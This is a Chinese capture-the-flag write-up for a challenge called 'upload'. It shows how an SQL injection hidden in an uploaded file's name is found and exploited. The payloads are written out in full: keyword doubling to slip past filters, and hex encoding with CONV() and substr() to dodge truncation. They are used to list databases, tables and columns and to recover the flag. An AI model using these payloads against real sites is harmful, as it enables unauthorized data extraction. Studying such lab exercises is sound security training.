





# upload
## 题目描述
如题目环境有问题，稍等片刻后刷新即可。
## 思路
http://220.249.52.133:59493  
点开题目链接，是个注册页面，一如既往的随便注册，然后登录，发现有回显，是把用户名回显了，并且有上传文件的地方：  
  
一开始以为是要在这个地方注入，因为和前端时间做的 unfinish 很相似，结果试了下，并不行，他直接把我用户名，毫无处理的回显出来了：  
  
题目是 upload，那应该是在上传文件上下功夫，尝试了一句话木马，并不知道访问路径，并且也没办法通过 bp 绕过后缀检查。然后想到文件名注入，这个在《代码审计》的第64页：  
>因为一般程序员都不会注意到对文件名进行过滤，但是又需要把文件名保存到数据库中，所以就会存在SQL注入漏洞。  

如此，就是构造文件名了，首先直接尝试最简单的 select database()：  
0'+(select database())+'.jpg  
回显了0：  
  
难不成是存在过滤？再试试：  
0'+(selselectect DAtabase())+'.jpg  
还是回显0，以为是思路错了，就去看了 wp，发现这个思路没错，但是文件名要复杂些，因为该网站对文件名还是做了一些过滤的……  
```sql
0'+(selselectect CONV(substr(hex(dAtaBase()),1,12),16,10))+'  
```
***
这里稍作解释，selselectect 是为了绕过关键字过滤，后面的 from 是同样的道理。对数据库名进行 hex 编码是为了绕过字母截断，本题遇到字母就会进行截断，这与外面的 CONV() 函数的使用是一个道理，因为十六进制的表示中存在 a b c d e f 六个字母，会被截断。substr() 是为了绕过科学计数法的表示，当 substr(hex(dAtaBase()),1,13) 时，效果如下：  
  
这样，我们无法获得准确的数字。
***
  
先把得到的数字转十六进制，然后进行 hex 解码，发现是有意义的字母：web_up，继续找出数据库名，然后再找表名和列名即可：  
```sql
//表名
0'+(selselectect CONV(substr(hex((selecselectt group_concat(table_name) frofromm information_schema.tables where table_schema='web_upload')),1,12),16,10))+'
//列名
0'+(selselectect CONV(substr(hex((selecselectt group_concat(column_name) frofromm information_schema.columns where table_name='hello_flag_is_here')),1,12),16,10))+'
```
最后，拼接解码后的列名得到 flag：  
!!_@m_Th.e_F!lag  


## 补充知识
1. CONV(N, from_base, to_base)  
CONV() 函数的目的是把 N 从 from_base 进制转换为 to_base 进制。本题之所以用到，是因为本题会过滤掉数字之外的字符，并在此处截断，以至无法获得正确的答案。   
2. 本题得到的十进制数字必须先解码，然后再拼接，如果先拼接，再转十六进制、解码的话，会解码失败。
